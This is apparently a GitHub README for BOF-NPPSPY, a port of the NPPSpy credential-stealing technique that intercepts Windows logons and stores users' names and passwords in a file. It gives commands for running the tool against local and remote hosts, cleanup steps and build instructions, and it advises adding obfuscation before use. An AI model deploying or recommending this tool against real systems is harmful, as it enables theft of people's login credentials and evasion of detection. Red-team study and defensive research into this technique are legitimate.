

# BOF-NPPSPY
Porting of NPPSPY by Grzegorz Tworek to 'man in the middle' the user logon process, and store the user's name and password in an unassuming file.

I have modified the DLL a little bit and you may want to add more changes or obfuscation before using it
# Usage
<b>Target local host</b>
```texinfo
bof-NPPSPY local
```
<b>Target remote host</b>
```texinfo
bof-NPPSPY 
```


<b>Cleanup</b><br>
cleanup command is provided as above
```texinfo
local:
bof-NPPSPY local cleanup <cleanupvalue>

remote:
bof-NPPSPY WS01 cleanup <cleanupvalue>
```

# Compile
```texinfo
git clone https://github.com/VoldeSec/BOF-NPPSPY.git
cd BOF-NPPSPY
make
```


# Credits
NPPSPY by Grzegorz Tworek - https://github.com/gtworek/PSBits/tree/master/PasswordStealing/NPPSpy
